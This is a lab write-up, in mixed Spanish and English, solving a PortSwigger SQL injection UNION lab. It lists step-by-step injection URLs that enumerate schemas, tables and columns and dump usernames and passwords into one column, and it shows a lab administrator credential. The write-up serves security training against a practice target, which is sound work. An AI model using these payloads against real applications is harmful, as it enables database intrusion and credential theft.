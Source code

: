 # `LAB`: SQL injection UNION attack, retrieving multiple values in a single column

## Descripción:

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform a **SQL injection UNION attack** that retrieves all usernames and passwords, and use the information to log in as the `administrator` user. 

---

### Explicación:

Este laboratiorio es exactamente igual al mismo, en realidad "la diferencia" es que solicitan mostrar la información **en una sola columna** pero ese ejemplo también se vió en el anterior.

- Debido a que la vulnerabilidad está en 2 columnas `'1','2'` se pueden usar ambar para poner la información, por ejemplo `'1':username` y `'2':password`, pero también se pueden poner ambas en una sola columna utilizando técnicas como `CONCAT`, `GROUP_CONCAT`, `||`, etc...

- OJO!!! A diferencia del laboratorio anterior, este escenario no permite mostrar resultados en columna `'1'`, es por eso que inyecto los querys en `'2'` únicamente

## Solución:

````py
# Original
https://666.web-security-academy.net/filter?category=Lifestyle

# Vulnerabilidad
https://666.web-security-academy.net/filter?category=Lifestyle'

# Sanar el Query
.web-security-academy.net/filter?category=Lifestyle' -- -

# Contando Columnas en la tabla que estoy (total = 2)
.web-security-academy.net/filter?category=Lifestyle' order by 2 -- -

# NOT WORKING!!! Contando Columnas en registro que estoy (total = 2) 
.web-security-academy.net/filter?category=Lifestyle'  union select 1,2 -- -

# Working!!! Invisible - Contando Columnas en registro que estoy (total = 2) 
.web-security-academy.net/filter?category=Lifestyle'  union select null,null -- -
# Working!!! Visible - Contando Columnas en registro que estoy (total = 2) 
.web-security-academy.net/filter?category=Lifestyle'  union select '1','2' -- -

### DUMP: schema, tables, columns

    # OJO!!! `Depende el lado de la inyección irá el "UNION SELECT <--> schema_name"`

# Enum Databases:

## Opt1 - Dump: schema_name = DBs 
.web-security-academy.net/filter?category=Lifestyle' UNION SELECT '1',schema_name FROM information_schema.schemata -- -
    ### vvv-vvv-vvv-vvv-vvv-vvv-vvv
    ### [DUMP = DB = 1. public]

# Enum Tables (TODAS):
.web-security-academy.net/filter?category=Lifestyle' UNION SELECT '1',table_name FROM information_schema.tables -- -
## Opt3 - Dump: table_name = Tables (SOLO database() en este caso 'public')
.web-security-academy.net/filter?category=Lifestyle' UNION SELECT '1',table_name FROM information_schema.tables WHERE table_schema = 'public' -- -

    ### vvv-vvv-vvv-vvv-vvv-vvv-vvv
    ### [DUMP = Table = 1. users]
    ### [DUMP = Table = 2. products]

# Enum Columns:

## Opt1 - Dump: table_name = Tables (SOLO database() en este caso 'public')
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT '1',column_name FROM information_schema.columns WHERE table_schema = 'public' AND table_name = 'users' -- -
    ### vvv-vvv-vvv-vvv-vvv-vvv-vvv
    ### [DUMP = Columns = 1. password]
    ### [DUMP = Columns = 1. username]

# Dump Data:

    # Aqui solo podemos arrojar el resultado en una sola columna

    # Nota GROUP_CONCAT: Casualmente `' UNION SELECT group_concat(username,password),'2' FROM users -- -` da error, pero es comúnmente usada. 

## Opt1 - Dump "username" + "password" (CONCAT)
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT '1',concat(username,' ::: ',password) FROM users -- -
## Opt2 - Dump "username" + "password" (*STRING COCATENATION - Port Swigger cheatsheet - ||' ::: '||)
https://666.web-security-academy.net/filter?category=Accessories' UNION SELECT '1',username||' ::: '||password FROM users -- -
    ### vvv-vvv-vvv-vvv-vvv-vvv-vvv
    ### [DUMP = Data = administrator ::: 0x35tx3qbzk3re93pdog]



````
